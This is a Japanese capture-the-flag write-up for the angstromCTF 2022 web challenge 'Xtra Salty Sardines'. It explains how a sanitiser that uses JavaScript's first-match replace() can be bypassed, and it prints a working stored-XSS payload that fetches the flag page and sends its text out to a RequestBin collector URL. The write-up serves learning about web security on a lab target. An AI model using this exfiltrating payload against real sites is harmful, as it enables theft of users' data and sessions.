

# [WEB] Xtra Salty Sardines 70pts
Clam was intensely brainstorming new challenge ideas, when his stomach growled! He opened his favorite tin of salty sardines, took a bite out of them, and then got a revolutionary new challenge idea. What if he wrote [a site with an extremely suggestive acronym](https://xtra-salty-sardines.web.actf.co/)?

[Source](https://files.actf.co/7173d383e018e4398019bc1990706545915b0ab3a36664b103b3454fb11afd64/index.js), [Admin Bot](https://admin-bot.actf.co/xtra-salty-sardines)
# Solution
初見で解けなかった。\
問題文のタイトルからXSSに関連したやつだな〜と推測。与えられたサイトにアクセスすると、script送ってください感すごいフォームが。`<script>alert('hello');</script>` を送信してみる。すると、表示がおかしいことに気づく。
\
POSTした文字列が何かしら変換されているっぽいので、ソースコードを読んでみる。
```javascript
~~~

    const name = req.body.name
        .replace("&", "&amp;")
        .replace('"', "&quot;")
        .replace("'", "&apos;")
        .replace("<", "&lt;")
        .replace(">", "&gt;");

~~~
```
JavaScriptのreplaceは最初に一致した文字列のみを置換する。ということで、`<>'<script>alert('hello');</script>` を送信してみると、alertが表示された。これで何かしらのイベントを発生させることができるようになったが、何をしたらいいのかわからず断念。\
writeupを読む。\
XSSペイロードを投稿し、Admin Bot にGETで取得させればいいらしい。

XSSペイロードが何かよくわからないので、調べる

> ペイロード（payload）は、IT用語ではデータ伝送されるパケットのヘッダー部を除いたデータの本体を指します。

うーんわからない、、、とりあえずXSSを引き起こすようなやつ？

[RequestBin](https://requestbin.com/)というHTTPリクエストを記録するサービスを利用してみる

```
<>'<script>fetch('https://xtra-salty-sardines.web.actf.co/flag').then(res => res.text()).then(text => fetch("https://xxxxxxxxxxxxx.x.pipedream.net?s=" + text));</script>
```

を投稿し、生成されたURL(`https://xtra-salty-sardines.web.actf.co/sardines/xxxxxxxxxx`)をadmin bot に送信。RequestBin でリクエストが返ってきてそれに、正解のフラグが含まれていた。

ctfではadmin bot を使った際のCookieをsecretにする？

admin bot にurlを送ったら、admin bot がそのurlを踏む？その際にCookie付きで送る？admin bot の勉強しないと(^_^;)

# Reference
- https://github.com/satoki/ctf_writeups/tree/master/%C3%A5ngstromCTF_2022/Xtra_Salty_Sardines